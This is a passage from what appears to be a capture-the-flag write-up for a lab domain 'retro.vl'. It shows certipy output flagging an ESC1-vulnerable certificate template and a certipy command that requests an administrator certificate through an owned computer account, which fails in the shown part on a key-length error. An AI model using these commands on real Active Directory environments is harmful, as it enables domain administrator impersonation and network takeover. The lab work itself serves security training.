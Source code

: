 ```
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 4096
    Permissions
      Enrollment Permissions
        Enrollment Rights               : RETRO.VL\Domain Admins
                                          RETRO.VL\Domain Computers
                                          RETRO.VL\Enterprise Admins
      Object Control Permissions
        Owner                           : RETRO.VL\Administrator
        Write Owner Principals          : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
                                          RETRO.VL\Administrator
        Write Dacl Principals           : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
                                          RETRO.VL\Administrator
        Write Property Principals       : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
                                          RETRO.VL\Administrator
    [!] Vulnerabilities
      ESC1                              : 'RETRO.VL\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```

### ESC1 

As we can see `certipy` has flagged one template vulnerable to ESC1. `RetroClients` certificate template is used for the client authentication, however only domain/enterprise admins and domain computers can enroll to use this template. Fortunately, we already own one computer account - `BANKING$`.

ESC1 allows us to request a certificate and supply the subject SPN. This is due to the `EnrolleeSuppliesSubject` flag set. We can use `certipy` again and request a administrator certificate.

```
➜  retro certipy req -u 'BANKING$'@retro.vl -p Password123456 -dc-ip 10.10.106.112 -ca retro-DC-CA -template RetroClients -upn administrator@retro.vl               
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094811 - CERTSRV_E_KEY_LENGTH - The public key does not meet the minimum size required by the specified certificate template.
[*] Request ID is 16
```
